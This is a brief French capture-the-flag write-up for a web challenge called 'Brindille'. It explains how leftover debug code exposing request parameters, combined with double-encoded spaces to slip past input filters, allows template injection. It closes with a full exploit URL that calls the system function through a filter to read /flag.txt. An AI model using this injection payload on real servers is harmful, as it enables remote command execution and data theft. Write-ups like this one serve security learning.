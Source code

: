 ## Solve - Brindille

On pouvait observer que le développeur avait laissé du code de debug permettant de récupérer les paramètres de la requête à partir de la variable
global ``_context``.

La difficulté résidant dans les filtres appliqué sur les paramètres, il fallait trouver un moyen de les contourner.  

Il n'était pas possible de mettre directement des espaces mais il était possible de les réencoder pour bypass le filtrage.

``http://un_nom_de_domaine/?EMAIL=%22{%if%2520[_context.GET.payload]|filter(_context.GET.system)%}%22%40gmail.com&NAME={%endif%}&payload=cat /flag.txt&system=system``
